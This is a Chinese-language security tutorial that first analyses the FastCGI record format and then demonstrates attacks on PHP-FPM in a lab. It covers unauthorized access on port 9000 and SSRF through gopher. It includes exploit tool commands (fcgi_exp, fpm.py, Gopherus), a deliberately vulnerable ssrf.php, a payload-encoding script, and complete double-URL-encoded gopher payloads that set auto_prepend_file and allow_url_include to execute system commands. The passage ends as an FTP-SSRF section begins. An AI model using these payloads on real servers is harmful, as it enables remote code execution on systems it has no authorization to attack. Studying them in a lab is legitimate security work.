




# Fastcgi 协议分析与 PHP-FPM 攻击方法 - 先知社区

Fastcgi 协议分析与 PHP-FPM 攻击方法

- - -

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134732-8bc5d044-b2e5-1.jpg)

\[toc\]

## 前言

前言？没有前言了……

## CGI

早期的Web服务器，只能响应浏览器发来的HTTP静态资源的请求，并将存储在服务器中的静态资源返回给浏览器。随着Web技术的发展，逐渐出现了动态技术，但是Web服务器并不能够直接运行动态脚本，为了解决Web服务器与外部应用程序（CGI程序）之间数据互通，于是出现了CGI（Common Gateway Interface）通用网关接口。**简单理解，可以认为CGI是Web服务器和运行在其上的应用程序进行“交流”的一种约定。**

当遇到动态脚本请求时，Web服务器主进程就会Fork创建出一个新的进程来启动CGI程序，运行外部C程序或Perl、PHP脚本等，也就是将动态脚本交给CGI程序来处理。启动CGI程序需要一个过程，如读取配置文件、加载扩展等。当CGI程序启动后会去解析动态脚本，然后将结果返回给Web服务器，最后由Web服务器将结果返回给客户端，之前Fork出来的进程也随之关闭。这样，每次用户请求动态脚本，Web服务器都要重新Fork创建一个新进程去启动CGI程序，由CGI程序来处理动态脚本，处理完成后进程随之关闭，其效率是非常低下的。

而对于Mod CGI，Web服务器可以内置Perl解释器或PHP解释器。 也就是说将这些解释器做成模块的方式，Web服务器会在启动的时候就启动这些解释器。 当有新的动态请求进来时，Web服务器就是自己解析这些动态脚本，省得重新Fork一个进程，效率提高了。

## FastCGI

有了CGI，自然就解决了Web服务器与PHP解释器的通信问题，但是Web服务器有一个问题，就是它每收到一个请求，都会去Fork一个CGI进程，请求结束再kill掉这个进程，这样会很浪费资源。于是，便出现了CGI的改良版本——Fast-CGI。

维基百科对 FastCGI 的解释是：快速通用网关接口（Fast Common Gateway Interface／FastCGI）是一种让交互程序与Web服务器通信的协议。FastCGI是早期通用网关接口（CGI）的增强版本。FastCGI致力于减少网页服务器与CGI程序之间交互的开销，Fast-CGI每次处理完请求后，不会kill掉这个进程，而是保留这个进程，从而使服务器可以同时处理更多的网页请求。这样就会大大的提高效率。

## 浏览器处理静态/动态网页过程

众所周知，在网站分类中存在一种分类就是静态网站和动态网站，两者的区别就是静态网站只需要通过浏览器进行解析，其中的页面是一对一的（一个内容对应一个页面），而动态网站需要一个额外的编译解析的过程，网页上的数据是从数据库中或者其他地方调用，页面会随着数据的变化而改变，就产生了一定的交互性。

### 浏览器访问静态网页过程

在整个网页的访问过程中，Web容器（例如Apache、Nginx）只担任着**内容分发**者的身份，当访问静态网站的主页时，Web容器会到网站的相应目录中查找主页文件，然后发送给用户的浏览器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134732-8be7c97e-b2e5-1.jpg)

### 浏览器访问动态网页过程

当访问动态网站的主页时，根据容器的配置文件，它知道这个页面不是静态页面，Web容器就会去找PHP解析器来进行处理（这里以Apache为例），它会把这个请求进行简单的处理，然后交给PHP解释器。

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134733-8c056362-b2e5-1.jpg)

当Apache收到用户对 index.php 的请求后，如果使用的是CGI，会启动对应的 CGI 程序，对应在这里就是PHP的解析器。接下来PHP解析器会解析php.ini文件，初始化执行环境，然后处理请求，再以CGI规定的格式返回处理后的结果，退出进程，Web Server 再把结果返回给浏览器。这就是一个完整的动态PHP Web访问流程。

这里说的是使用CGI，而FastCGI就相当于高性能的CGI，与CGI不同的是它像一个常驻的CGI，在启动后会一直运行着，不需要每次处理数据时都启动一次， 所以这里引出下面这句概念，FastCGI是语言无关的、可伸缩架构的CGI开放扩展，**其主要行为是将CGI解释器进程保持在内存中**，并因此获得较高的性能 。

## Fastcgi 协议分析

### Fastcgi Record

Fastcgi 其实是一个通信协议，和HTTP协议一样，都是进行数据交换的一个通道。

HTTP协议是 **浏览器和服务器中间件** 进行数据交换的协议，浏览器将HTTP头和HTTP体用某个规则组装成数据包，以TCP的方式发送到服务器中间件，服务器中间件按照规则将数据包解码，并按要求拿到用户需要的数据，再以HTTP协议的规则打包返回给服务器。

类比 HTTP 协议来说，Fastcgi 协议则是 **服务器中间件和某个语言后端** 进行数据交换的协议。Fastcgi 协议由多个 Record 组成，Record 也有 Header 和 Body 一说，服务器中间件将这二者按照 Fastcgi 的规则封装好发送给语言后端，语言后端解码以后拿到具体数据，进行指定操作，并将结果再按照 Fastcgi 协议封装好后返回给服务器中间件。

和 HTTP 头不同，Fastcgi Record 的头固定8个字节，Body 是由头中的 `contentLength` 指定，其结构如下：

```plain
typedef struct {
  /* Header 消息头信息 */
  unsigned char version; // 用于表示 FastCGI 协议版本号
  unsigned char type; // 用于标识 FastCGI 消息的类型, 即用于指定处理这个消息的方法
  unsigned char requestIdB1; // 用ID值标识出当前所属的 FastCGI 请求
  unsigned char requestIdB0;
  unsigned char contentLengthB1; // 数据包包体Body所占字节数
  unsigned char contentLengthB0;
  unsigned char paddingLength; // 额外块大小
  unsigned char reserved; 

  /* Body 消息主体 */
  unsigned char contentData[contentLength];
  unsigned char paddingData[paddingLength];
} FCGI_Record;
```

头由8个 uchar 类型的变量组成，每个变量一个字节。其中，`requestId` 占两个字节，一个唯一的标志id，以避免多个请求之间的影响；`contentLength` 占两个字节，表示 Body 的大小。可见，一个 Fastcgi Record 结构最大支持的 Body 大小是`2^16`，也就是 65536 字节。

后端语言解析了 Fastcgi 头以后，拿到 `contentLength`，然后再在请求的 TCP 流里读取大小等于 `contentLength` 的数据，这就是 Body 体。

Body 后面还有一段额外的数据（Padding），其长度由头中的 `paddingLength` 指定，起保留作用。不需要该Padding的时候，将其长度设置为0即可。

### Fastcgi Type

刚才我们介绍了 Fastcgi 协议中Record部分中各个结构的含义，其中第二个字节为 `type`，我们将对其进行详细讲解。

`type` 就是指定该 Record 的作用。因为 Fastcgi 中一个 Record 的大小是有限的，作用也是单一的，所以我们需要在一个TCP流里传输多个 Record，通过 `type` 来标志每个 Record 的作用，并用 `requestId` 来标识同一次请求的id。也就是说，每次请求，会有多个 Record，他们的 `requestId` 是相同的。

下面给出一个表格，列出最主要的几种 `type`：

| type值 | 具体含义 |
| --- | --- |
| 1   | 在与php-fpm建立连接之后发送的第一个消息中的type值就得为1，用来表明此消息为请求开始的第一个消息 |
| 2   | 异常断开与php-fpm的交互 |
| 3   | 在与php-fpm交互中所发的最后一个消息中type值为此，以表明交互的正常结束 |
| 4   | 在交互过程中给php-fpm传递环境变量时，将type设为此，以表明消息中包含的数据为某个name-value对 |
| 5   | Web服务器将从浏览器接收到的POST请求数据（表单提交等）以消息的形式发给php-fpm，这种消息的type就得设为5 |
| 6   | php-fpm给Web服务器回的正常响应消息的type就设为6 |
| 7   | php-fpm给Web服务器回的错误响应设为7 |

看了这个表格就很清楚了，服务器中间件和后端语言通信，第一个数据包就是 `type` 为1的 Record，后续互相交流，发送 `type` 为4、5、6、7的 Record，结束时发送 `type` 为2、3的 Record。

当后端语言接收到一个 `type` 为4的 Record 后，就会把这个 Record 的 Body 按照对应的结构解析成 key-value 对，这就是环境变量。环境变量的结构如下：

```plain
typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair11;

typedef struct {
  unsigned char nameLengthB0;  /* nameLengthB0  >> 7 == 0 */
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair14;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB0; /* valueLengthB0 >> 7 == 0 */
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength];
} FCGI_NameValuePair41;

typedef struct {
  unsigned char nameLengthB3;  /* nameLengthB3  >> 7 == 1 */
  unsigned char nameLengthB2;
  unsigned char nameLengthB1;
  unsigned char nameLengthB0;
  unsigned char valueLengthB3; /* valueLengthB3 >> 7 == 1 */
  unsigned char valueLengthB2;
  unsigned char valueLengthB1;
  unsigned char valueLengthB0;
  unsigned char nameData[nameLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
  unsigned char valueData[valueLength
          ((B3 & 0x7f) << 24) + (B2 << 16) + (B1 << 8) + B0];
} FCGI_NameValuePair44;
```

这其实是 4 个结构，至于用哪个结构，有如下规则：

1.  key、value均小于128字节，用 `FCGI_NameValuePair11`
2.  key大于128字节，value小于128字节，用 `FCGI_NameValuePair41`
3.  key小于128字节，value大于128字节，用 `FCGI_NameValuePair14`
4.  key、value均大于128字节，用 `FCGI_NameValuePair44`

为什么我只介绍 `type` 为4的 Record？因为环境变量在后面 PHP-FPM 里有重要作用，之后写代码也会写到这个结构。`type` 的其他情况，大家可以自己翻文档理解理解。

## PHP-FPM

在前面我们也看到了PHP-FPM这个东西，那这个PHP-FPM到底是什么呢？

官方对PHP-FPM的解释是 FastCGI 进程管理器，用于替换 PHP FastCGI 的大部分附加功能，对于高负载网站是非常有用的。PHP-FPM 默认监听的端口是 9000 端口。

也就是说 **PHP-FPM 是 FastCGI 的一个具体实现**，并且提供了进程管理的功能，在其中的进程中，包含了 master 和 worker 进程，这个在后面我们进行环境搭建的时候可以通过命令查看。其中**master 进程负责与 Web 服务器中间件进行通信**，接收服务器中间按照 FastCGI 的规则打包好的用户请求，再将请求转发给 worker 进程进行处理。**worker 进程主要负责后端动态执行 PHP 代码，**处理完成后，将处理结果返回给 Web 服务器，再由 Web 服务器将结果发送给客户端。

举个例子，当用户访问 `http://127.0.0.1/index.php?a=1&b=2` 时，如果 Web 目录是 /var/www/html，那么 Web 服务器中间件（如 Nginx）会将这个请求变成如下 key-value 对：

```plain
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
}
```

这个数组其实就是 PHP 中 `$_SERVER` 数组的一部分，也就是 PHP 里的环境变量。但环境变量的作用不仅是填充 `$_SERVER` 数组，也是告诉 fpm：“我要执行哪个 PHP 文件”。

PHP-FPM 拿到 Fastcgi 的数据包后，进行解析，得到上述这些环境变量。然后，执行 `SCRIPT_FILENAME` 的值指向的PHP文件，也就是 `/var/www/html/index.php`。但如果我们能够控制 `SCRIPT_FILENAME` 的值，不就可以让 PHP-FPM 执行服务器上任意的 PHP 文件了吗。写到这里，PHP-FPM 未授权访问漏洞差不多也就呼之欲出了。

## PHP-FPM 任意代码执行

前文我们讲到， Web 服务器中间件会将用户请求设置成环境变量，并且会出现一个 `'SCRIPT_FILENAME': '/var/www/html/index.php'` 这样的键值对，它的意思是 PHP-FPM 会执行这个文件，但是这样即使能够控制这个键值对的值，但也只能控制 PHP-FPM 去执行某个已经存在的文件，不能够实现一些恶意代码的执行。并且在 PHP 5.3.9 后来的版本中，PHP 增加了 `security.limit_extensions` 安全选项，导致只能控制 PHP-FPM 执行一些像 php、php3、php4、php5、php7 这样的文件，因此你必须找到一个已经存在的 PHP 文件，这也增大了攻击的难度。

但是好在强大的 PHP 中有两个有趣的配置项：

-   `auto_prepend_file`：告诉PHP，在执行目标文件之前，先包含 `auto_prepend_file` 中指定的文件。
-   `auto_append_file`：告诉PHP，在执行完成目标文件后，再包含 `auto_append_file` 指向的文件。

那么就有趣了，假设我们设置 `auto_prepend_file` 为 `php://input`，那么就等于在执行任何 PHP 文件前都要包含一遍 POST 的内容。所以，我们只需要把需要执行的代码放在 Body 中，他们就能被执行了。（当然，这还需要开启远程文件包含选项 `allow_url_include`）

那么，我们怎么设置 `auto_prepend_file` 的值？

这就又涉及到 PHP-FPM 的两个环境变量，`PHP_VALUE` 和 `PHP_ADMIN_VALUE`。这两个环境变量就是用来设置 PHP 配置项的，`PHP_VALUE` 可以设置模式为 `PHP_INI_USER` 和 `PHP_INI_ALL` 的选项，`PHP_ADMIN_VALUE` 可以设置所有选项。

所以，我们最后传入的就是如下的环境变量：

```plain
{
    'GATEWAY_INTERFACE': 'FastCGI/1.0',
    'REQUEST_METHOD': 'GET',
    'SCRIPT_FILENAME': '/var/www/html/index.php',
    'SCRIPT_NAME': '/index.php',
    'QUERY_STRING': '?a=1&b=2',
    'REQUEST_URI': '/index.php?a=1&b=2',
    'DOCUMENT_ROOT': '/var/www/html',
    'SERVER_SOFTWARE': 'php/fcgiclient',
    'REMOTE_ADDR': '127.0.0.1',
    'REMOTE_PORT': '12345',
    'SERVER_ADDR': '127.0.0.1',
    'SERVER_PORT': '80',
    'SERVER_NAME': "localhost",
    'SERVER_PROTOCOL': 'HTTP/1.1'
    'PHP_VALUE': 'auto_prepend_file = php://input',
    'PHP_ADMIN_VALUE': 'allow_url_include = On'
}
```

设置 `auto_prepend_file = php://input` 且 `allow_url_include = On`，然后将我们需要执行的代码放在 Body 中，即可执行任意代码。

## PHP-FPM 未授权访问漏洞

前文我们讲到，攻击者可以通过 `PHP_VALUE` 和 `PHP_ADMIN_VALUE` 这两个环境变量设置 PHP 配置选项 `auto_prepend_file` 和 `allow_url_include` ，从而使 PHP-FPM 执行我们提供的任意代码，造成任意代码执行。除此之外，由于 PHP-FPM 和 Web 服务器中间件是通过网络进行沟通的，因此目前越来越多的集群将 PHP-FPM 直接绑定在公网上，所有人都可以对其进行访问。这样就意味着，任何人都可以伪装成Web服务器中间件来让 PHP-FPM 执行我们想执行的恶意代码。这就造成了 PHP-FPM 的未授权访问漏洞。

下面我们搭建环境，对 PHP-FPM 未授权访问漏洞的攻击过程进行讲解。

### 环境搭建

-   靶 机：Ubuntu（192.168.0.175）
-   攻击机：Kali（192.168.0.128）

这里直接在Ubuntu上安装Nginx和php-fpm，首先安装Nginx

```plain
sudo apt-get install nginx
```

安装php、php-fpm以及一些插件

```plain
sudo apt-get install software-properties-common python-software-properties 
sudo add-apt-repository ppa:ondrej/php    # 这里容易卡死, 解决方法是挂代理
sudo apt-get update
sudo apt-get -y install php7.4
sudo apt-get -y install php7.4-fpm php7.4-mysql php7.4-curl php7.4-json php7.4-mbstring php7.4-xml  php7.4-intl
```

### 配置 PHP-FPM

接下来我们需要修改 PHP-FPM 的配置，设置监听9000端口来处理nginx的请求，并将 PHP-FPM 暴露在 0.0.0.0 上面。

打开 `/etc/php/7.4/fpm/pool.d/www.conf` 文件找到如下位置，注释掉第一行并添加第二行：

```plain
;listen = /run/php/php7.4-fpm.sock
listen = 0.0.0.0:9000
```

此时将 PHP-FPM 的监听地址设置为了 `0.0.0.0:9000`，便会产生PHP-FPM 未授权访问漏洞，此时攻击者可以直接与暴露在目标主机 9000 端口上的 PHP-FPM 进行通信，进而可以实现任意代码执行。

下面修改权限

```plain
chmod 777 /run/php/php7.4-fpm.sock
```

打开nginx的配置文件 `/etc/nginx/sites-available/default` 修改相应部分的配置

```plain
server {
    listen       80; #监听80端口，接收http请求
    server_name  www.example.com; #就是网站地址
    root /var/www/html; # 准备存放代码工程的路径
    #路由到网站根目录www.example.com时候的处理
    location / {
        index index.php; #跳转到www.example.com/index.php
        autoindex on;
    }  
    #当请求网站下php文件的时候，反向代理到php-fpm
    location ~ \.php$ {
        fastcgi_split_path_info ^(.+\.php)(/.+)$;
        fastcgi_pass 0.0.0.0:9000;#nginx fastcgi进程监听的IP地址和端口
        #fastcgi_pass unix:/run/php/php7.4-fpm.sock;
        fastcgi_index index.php;
        include fastcgi_params;
    }
}
```

### 启动环境

配置完成后查看一下php-fpm的安装位置，然后启动

```plain
whereis php-fpm
/usr/sbin/php-fpm7.4    # 这是我的靶机上php-fpm安装的位置
```

重新启动Nginx

```plain
sudo systemctl restart nginx
```

然后检查nginx是否正确启动 `systemctl status nginx`：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134733-8c462bb8-b2e5-1.png)

检查php-fpm是否正确启动 `ps -elf | grep php-fpm`

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134733-8c6cc49e-b2e5-1.png)

这里就可以看出上面所说的存在一个master进程和多个worker进程。

下面将 `/var/www/html` 目录下的文件删除，新建一个index.php，内容可以写上 `<?php phpinfo(); ?>` 用来检查各项是否正常运行（如果页面为空，查看这篇[文章](https://blog.csdn.net/feiniao8651/article/details/52768911)解决）：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134734-8cbe23c0-b2e5-1.png)

其中 Sever API 处和上图一样说明运行正确。下面我们开始攻击。

### 利用 fcgi\_exp.go 攻击

-   项目地址：[https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

将该项目下载下来后，进入到 webcgi-exploits/php/Fastcgi，新建一个 fcgiclient 目录，将 fcgiclient.go 放入新建的 fcgiclient 目录中：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134734-8d0a39ae-b2e5-1.png)

然后安装 go 环境进行编译：

```plain
go build fcgi_exp.go                    # 编译fcgi_exp.go
```

然后直接运行可以看到 fcgi\_exp 的使用方法：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134735-8d6cfa6c-b2e5-1.png)

使用如下命令进行测试

```plain
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

-   system：要使用的PHP函数
-   192.168.43.82：目标机IP
-   9000：目标机 fpm 端口
-   /var/www/html/index.php：已知的位于目标机上的PHP文件
-   id：要执行的系统命令

如下图所示，成功执行系统命令，利用成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134736-8e1130a0-b2e5-1.png)

### 利用 phith0n 大神的 fpm.py

-   项目地址：[https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75](https://gist.github.com/phith0n/9615e2420f31048f7e30f3937356cf75)

> “兼容Python2和Python3，方便在内网用。之前好些人总是拿着一个GO写的工具在用，又不太好用。实际上理解了fastcgi协议，再看看这个源码，就很简单了。“
> 
> ​ —— phith0n

利用方式：

```plain
python fpm.py 192.168.43.82 /var/www/html/index.php -c "<?php system('id'); exit(); ?>"
```

如下图所示，成功执行系统命令，利用成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134737-8ecd7fc6-b2e5-1.png)

## SSRF 中对 FPM/FastCGI 的攻击

有时候 PHP-FPM 也并不会执行绑定在 0.0.0.0 上面，而是 127.0.0.1，这样便避免了将 PHP-FPM 暴露在公网上被攻击者访问，但是如果目标主机上存在 SSRF 漏洞的话，我们便可以通过 SSRF 漏洞攻击内网的 PHP-FPM 。

-   靶 机：Ubuntu（192.168.0.175）
-   攻击机：Kali（192.168.0.128）

在目标机Web目录中新建 ssrf.php 文件，写入以下存在 SSRF 漏洞的代码：

```plain
<?php
    highlight_file(__FILE__);
    $url = $_GET['url'];
    $curl = curl_init($url);    
    //第二种初始化curl的方式
    //$curl = curl_init(); curl_setopt($curl, CURLOPT_URL, $_GET['url']); 

    /*进行curl配置*/
    curl_setopt($curl, CURLOPT_HEADER, 0); // 不输出HTTP头
    $responseText = curl_exec($curl);
    //var_dump(curl_error($curl) ); // 如果执行curl过程中出现异常，可打开此开关，以便查看异常内容

    echo $responseText;
    curl_close($curl);
?>
```

此时目标主机存在 SSRF 漏洞，并且通过 SSRF 可以探测到目标主机上 9000 端口上运行的 php-fpm。此时，虽然 php-fpm 没有暴露在公网上，但是由于存在 SSRF 漏洞，我们便可以通过 SSRF 漏洞配合 Gopher 协议去打内网的 php-fpm。

### 利用 fcgi\_exp 攻击

-   项目地址：[https://github.com/wofeiwo/webcgi-exploits](https://github.com/wofeiwo/webcgi-exploits)

刚在我们已经演示过了，fcgi\_exp 这个工具主要是用来攻击未授权访问 php-fpm 的，所以一些地方需要自己写脚本转换一下 payload。

使用如下命令进行测试：

```plain
./fcgi_exp system 192.168.43.82 9000 /var/www/html/index.php "id"
```

此时显然是不行的，因为在配置端口监听的时候，仅允许监听在127.0.0.1，不存在 php-fpm 未授权访问，所以说不能攻击成功。我们要通过 SSRF 来从目标机内部攻击 9000 端口。

在攻击机上使用 `nc -lvvp 1234 > fcg_exp.txt` 监听1234 端口来接收 payload，另外开启一个终端使用下面的命令发送 payload

```plain
./fcgi_exp system 127.0.0.1 1234 /var/www/html/index.php "id"
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134738-8f2c2e36-b2e5-1.png)

注意这里攻击的端口是上面监听的端口，目的是将payload发送到这个端口，运行后可以使用Ctrl+C 来结束运行，现在就得到了一个fcg\_exp.txt的文件，里面是获得的payload，可以使用 `xxd fcg_exp.txt` 查看其内容：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-8fabdcd0-b2e5-1.png)

文件里的内容有部分是不可见字符，这里需要url编码一下，这里写一个Python脚本对文件中的内容进行编码

```plain
# -*- coding: UTF-8 -*-
from urllib.parse import quote, unquote, urlencode

file = open('fcg_exp.txt','r')
payload = file.read()
print("gopher://127.0.0.1:9000/_"+quote(payload).replace("%0A","%0D").replace("%2F","/"))
```

执行上面的python脚本生成如下payload：

```plain
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%14%04%00%0E%02CONTENT_LENGTH56%0E%04REQUEST_METHODPOST%09%5BPHP_VALUEallow_url_include%20%3D%20On%0Ddisable_functions%20%3D%20%0Dsafe_mode%20%3D%20Off%0Dauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%008%00%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----0vcdb34oju09b8fd-----%0D%27%29%3B%3F%3E
```

之后我们还要对上面的payload进行二次url编码，然后将最终的payload内容放到?url=后面发送过去（这里需要进行两次编码，因为这里GET会进行一次解码，curl也会再进行一次解码）：

```plain
ssrf.php?url=gopher%3A//127.0.0.1%3A9000/_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2514%2504%2500%250E%2502CONTENT_LENGTH56%250E%2504REQUEST_METHODPOST%2509%255BPHP_VALUEallow_url_include%2520%253D%2520On%250Ddisable_functions%2520%253D%2520%250Dsafe_mode%2520%253D%2520Off%250Dauto_prepend_file%2520%253D%2520php%253A//input%250F%2517SCRIPT_FILENAME/var/www/html/index.php%250D%2501DOCUMENT_ROOT/%250F%2510SERVER_SOFTWAREgo%2520/%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP/1.1%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25008%2500%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----0vcdb34oju09b8fd-----%250D%2527%2529%253B%253F%253E
```

如下图所示，命令执行成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134739-90055350-b2e5-1.png)

### 利用 Gopherus 攻击

-   项目地址：[https://github.com/tarunkant/Gopherus](https://github.com/tarunkant/Gopherus)

[Gopherus](https://github.com/tarunkant/Gopherus) 这个工具相比上一个更加方便一下，该工具能生成Gopher有效负载，用来利用SSRF进行RCE：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134740-907396ee-b2e5-1.png)

下面我们就利用这个工具来执行命令：

```plain
python gopherus.py --exploit fastcgi
/var/www/html/index.php                 # 这里输入的是一个已知存在的php文件
id
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134741-91008b1c-b2e5-1.png)

如上图所示获得payload：

```plain
gopher://127.0.0.1:9000/_%01%01%00%01%00%08%00%00%00%01%00%00%00%00%00%00%01%04%00%01%01%04%04%00%0F%10SERVER_SOFTWAREgo%20/%20fcgiclient%20%0B%09REMOTE_ADDR127.0.0.1%0F%08SERVER_PROTOCOLHTTP/1.1%0E%02CONTENT_LENGTH54%0E%04REQUEST_METHODPOST%09KPHP_VALUEallow_url_include%20%3D%20On%0Adisable_functions%20%3D%20%0Aauto_prepend_file%20%3D%20php%3A//input%0F%17SCRIPT_FILENAME/var/www/html/index.php%0D%01DOCUMENT_ROOT/%00%00%00%00%01%04%00%01%00%00%00%00%01%05%00%01%006%04%00%3C%3Fphp%20system%28%27id%27%29%3Bdie%28%27-----Made-by-SpyD3r-----%0A%27%29%3B%3F%3E%00%00%00%00
```

然后进行二次编码后将最终的payload内容放到?url=后面发送过去即可：

```plain
/ssrf.php?url=gopher%3A%2F%2F127.0.0.1%3A9000%2F_%2501%2501%2500%2501%2500%2508%2500%2500%2500%2501%2500%2500%2500%2500%2500%2500%2501%2504%2500%2501%2501%2504%2504%2500%250F%2510SERVER_SOFTWAREgo%2520%2F%2520fcgiclient%2520%250B%2509REMOTE_ADDR127.0.0.1%250F%2508SERVER_PROTOCOLHTTP%2F1.1%250E%2502CONTENT_LENGTH54%250E%2504REQUEST_METHODPOST%2509KPHP_VALUEallow_url_include%2520%253D%2520On%250Adisable_functions%2520%253D%2520%250Aauto_prepend_file%2520%253D%2520php%253A%2F%2Finput%250F%2517SCRIPT_FILENAME%2Fvar%2Fwww%2Fhtml%2Findex.php%250D%2501DOCUMENT_ROOT%2F%2500%2500%2500%2500%2501%2504%2500%2501%2500%2500%2500%2500%2501%2505%2500%2501%25006%2504%2500%253C%253Fphp%2520system%2528%2527id%2527%2529%253Bdie%2528%2527-----Made-by-SpyD3r-----%250A%2527%2529%253B%253F%253E%2500%2500%2500%2500
```

如下图所示，命令执行成功：

[](https://xzfile.aliyuncs.com/media/upload/picture/20210512134742-91522ad0-b2e5-1.png)

## FTP - SSRF 攻击 FPM/FastCGI

这是在之前复现Laravel Debug mode RCE（CVE-2021-3129）漏洞时学到的一个思路。该漏洞的核心就是传入 file\_get\_contents() 和 file\_put\_contents() 这两个函数中的内容没有经过过滤，从而可以通过精巧的构造触发 phar 反序列化，达到RCE的效果。

漏洞代码大致可以简化为如下代码：

```plain
<?php
$contents = file_get_contents($_GET['viewFile']);
file_put_contents($_GET['viewFile'], $contents);
```

